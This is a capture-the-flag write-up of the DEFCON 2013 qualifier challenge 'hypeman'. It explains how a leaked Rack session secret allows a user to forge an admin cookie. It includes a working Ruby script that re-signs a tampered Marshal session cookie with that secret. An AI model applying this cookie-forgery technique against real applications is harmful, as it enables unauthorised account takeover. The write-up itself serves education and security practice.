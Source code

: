 ```yaml
---
title: hypeman - DEFCON CTF quals 2013
author: sebbe
layout: post
published: true
date: 2013-06-19 12:50:47
---
```


Challenge description:
> http://hypeman.shallweplayaga.me/

We are greeted by a login box, as well as a link to some secrets.

![welcome screen](/public/img/hypeman-welcomescreen.png )

Picking an unused username allows for login to the secrets listing.

![secrets](/public/img/hypeman-secrets.png )

On the list, one secret in particular stands out; the one titled "key", posted by "admin". Attempting to access it, however, reveals a runtime error with a stack trace. In the stack trace, one can see, that the only the user that posted a secret can view it.

![runtime error](/public/img/hypeman-runtime-error.png )

A bit of a read through the error page shows, that the page runs on [Rack](http://github.com/rack/rack). The page also shows, that the cookie contains, among other things, the username of the current user. (In fact, anything stored in the `rack.session` variable, see the [relevant implementation](https://github.com/rack/rack/blob/rack-1.2/lib/rack/session/cookie.rb#L52))  However, this cookie is signed based on a site secret.

![cookie and secret](/public/img/hypeman-leaked-secret.png )

Luckily, the runtime error was also nice enough to leak this for us. This allowed us to write the following script, which takes a valid cookie, and rewrites it to have username `admin`.

```ruby
require 'openssl'
require 'open-uri'

session_data = "BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFN2Q5YmQ2MmZhZGQ0OWQ1ZTNkYTIz\nYjc3NWYyYTIxZTQ4YTNjZGI3ZDQ2ZTRjMmJiNDFiOTg2NDhhMjk3MDU5OEki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItZWNhOGFi\nMTI2NTU5ZjRjODNkYTgzMDdmYTJhYTJhMGNiYWQ2YjExOEkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItOTZi\nMDU5NjMyOGFlODU5ZDYzNjdiODBkNzgzZTg2NDUwMjNiMmU4N0kiCWNzcmYG\nOwBGIkViOWU1ZjI3Y2IxOWM0ZjVkODk3MDE3NDVhY2MyMzJkODQxMjYxYWZm\nZTM5NWQ3YTU1YmEyNzAxNWM1NDg2ODY2SSIOdXNlcl9uYW1lBjsARkkiCGhl\nagY7AFQ=\n--c83a211ad1b46d84b6a9f1ec96d7bab8972d9177"

session_data, digest = session_data.split("--")
session_data = session_data.unpack("m*").first
session_data = Marshal.load(session_data)

session_data["user_name"] = "admin"

session_data = Marshal.dump(session_data)
session_data = [session_data].pack("m*")

hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, "wroashsoxDiculReejLykUssyifabEdGhovHabno", session_data)

session_data = "#{session_data}--#{hmac}"

session_data = URI::encode(session_data)
session_data = session_data.gsub("=", "%3D")

print session_data
```

Swapping our old cookie for the new one yielded the key. (...and not prefixed by "The key is: ", might I add!)

![the key](/public/img/hypeman-key.png )
